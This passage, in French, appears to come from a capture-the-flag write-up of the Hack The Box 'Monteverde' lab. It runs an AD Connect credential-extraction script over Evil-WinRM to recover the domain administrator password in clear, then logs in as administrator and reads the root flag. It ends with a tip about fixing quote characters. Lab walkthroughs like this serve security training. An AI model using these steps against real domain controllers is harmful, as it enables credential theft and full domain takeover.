 ### Output
Après correction des guillements, on execute le .ps1 et obtient les creds admin :
```bash
*Evil-WinRM* PS C:\Users\mhope\Documents> .\decrypt.ps1
AD Connect Sync Credential Extract POC
<encrypted-attributes>
 <attribute name="password">d0m@in4dminyeah!</attribute>
</encrypted-attributes>

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```

### Administrator pwned
```bash
[Jul 20, 2025 - 14:56:12 (CEST)] exegol-pentest Monteverde # evil-winrm -u "administrator" -p 'd0m@in4dminyeah!'  -i 10.10.10.172
          
Evil-WinRM shell v3.7
          
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
9f15.....9bf4
```

## Tips
- Toujours bien vérifier les scripts trouvés. Debug puis trouver l'erreur. Attention au guillemets suspects, toujours remplacer par '"' ou '"'.
